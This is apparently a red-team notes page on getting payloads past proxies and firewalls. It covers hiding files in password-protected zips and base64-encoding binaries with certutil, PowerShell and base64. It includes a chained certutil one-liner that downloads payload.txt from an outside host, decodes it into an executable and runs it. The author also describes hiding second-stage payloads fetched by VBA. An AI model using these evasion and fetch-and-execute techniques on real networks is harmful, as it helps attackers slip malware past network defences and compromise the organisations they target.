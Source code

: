 ```yaml
---
description: Using encoding and chunking of files to avoid conent detection
---
```


# Bypassing proxies and firewalls

Advanced proxies and firewalls can do SSL stripping and employ a variety of content inspection techniques. A well tuned defence could alert on or block the download of unusual file types such as executables or DLLs. In order to avoid this, payloads can be encoded or guised in a number of ways to appear as other file types. 

## As a zip

Zip files and passworded zip files can be used to hide files within if they are likely to be detected. Look for 7-zip or Win-Zip on the target system to be able to ustilise their encryption options. 

I've had reasonable success in obfuscating second stage payloads downloaded by VBA by hiding them within a .zip.

## As text files

By base64 encoding a binary, the content can be embeded within a larger text document or just moved into the environment "as is". 

This can be completed in a number of ways:

#### Certutil 

```text
#Encode binary
certutil -encode c:\zupdate.exe c:\zupdate.asc

#Decode binary
certutil -decode c:\zupdate.asc c:\zupdate.exe

#Chained decode after using certutil download functionality.
certutil.exe -urlcache -split -f "https://xenov.co.uk/payload.txt" payload.txt & certutil -decode payload.txt payload.exe & payload.exe

```

#### Powershell

```text
$source = "C:\Tools\Malware\zupdate.exe"
$sourceb64 = "C:\Tools\Malware\zupdate.txt"
$sourcebrebuild = "C:\Tools\Malware\zupdate-rebuild.exe"

#Convert binary to b64 encoded string & write to text file
[IO.File]::WriteAllBytes($sourceb64,[char[]][Convert]::ToBase64String([IO.File]::ReadAllBytes($source)))

#read b64 from text file, decode & write to binary file
[IO.File]::WriteAllBytes($sourcebrebuild, [Convert]::FromBase64String([char[]][IO.File]::ReadAllBytes($sourceb64)))
```

#### Base64 \(Linux & MacOS\)

```text
#Encode to Base64
base64 -i data.txt -o data.b64

#Decode a Base64 file
base64 -D -i data.b64 -o data.txt
```



